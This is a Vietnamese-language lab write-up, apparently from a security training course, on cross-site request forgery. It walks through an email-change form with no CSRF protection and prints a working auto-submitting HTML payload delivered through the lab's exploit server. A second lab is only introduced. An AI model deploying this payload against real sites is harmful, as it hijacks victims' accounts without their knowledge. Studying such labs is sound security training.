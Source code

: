 ```yaml
---
title: ' Web08: Cross-site request forgery (CSRF)'
tags: [web8]

---
```


# **1. Lab: CSRF vulnerability with no defenses**
> Chức năng thay đổi email của lab này dễ bị tấn công bởi CSRF.
Để giải quyết bài lab, hãy tạo một số HTML sử dụng tấn công CSRF để thay đổi địa chỉ email của người xem và tải nó lên máy chủ khai thác của bạn. Cho sẵn 1 người dùng hợp lệ `wiener:peter`
![image](https://hackmd.io/_uploads/r1Fa_tF7R.png)

>Đăng nhập trang web thì có chức năng thay đổi email, thử thay đổi 1 email hợp lệ: ![image](https://hackmd.io/_uploads/rk1GFFYXA.png)

>Xem request thì thấy có `POST /my-account/change-email` được gửi lên, chỉ chứa tham số `email`, mà không hề có 1 cơ chế bảo vệ chống CSRF nào: ![image](https://hackmd.io/_uploads/Sk-KnFK70.png). 
>
>Chức năng thay đổi email sử dụng phương thức **POST** và không có bất kỳ cơ chế nào ngăn chặn tấn công CSRF. Quan sát request này nhận thấy quá trình thay đổi email của chức năng xác định duy nhất qua tham số **`email`** truyền bằng phương thức POST (giá trị **`session`** trong cookie có sẵn trong browser nạn nhân). Ta cần tìm cách khiến nạn nhân cũng thực hiện request **POST** này với giá trị tham số email được đặt trước.


>Ta tạo một trang web giả mạo để gửi nạn nhân với nội dung sau:
```
<html>
  <body>
    <form action="https://<LAB-DOMAIN>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="ducanh&#64;gmail&#46;com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

>Cụ thể khi nạn nhân truy cập trang web này, nó tự động submit form update email đến đường dẫn `https://<LAB-DOMAIN>/my-account/change-email` với trường `email` do attacker định sẵn. Khi đó email tài khoản nạn nhân sẽ bị thay đổi.

>Gửi payload trên vào exploit server: ![image](https://hackmd.io/_uploads/H1uuTYtQC.png)

>Thử **View exploit** và thấy email của tài khoản hiện tại đã bị thay đổi:
>![image](https://hackmd.io/_uploads/SkEjTFYmA.png)

>Bây giờ chỉ việc **Deliver exploit to victim** và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/BJEbAYYXR.png)

# **2. Lab: CSRF where token validation depends on request method**
>Chức năng thay đổi email của lab này dễ bị tấn công bởi CSRF. Nó cố gắng chặn các cuộc tấn công CSRF nhưng chỉ áp dụng biện pháp phòng vệ cho một số loại yêu cầu nhất định.
Để giải quyết bài lab, hãy sử dụng máy chủ khai thác của bạn để lưu trữ trang HTML sử dụng cuộc tấn công CSRF để thay đổi địa chỉ email của người xem.
Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: `wiener:peter`
![image](https://hackmd.io/_uploads/rkDLIqKm0.png)
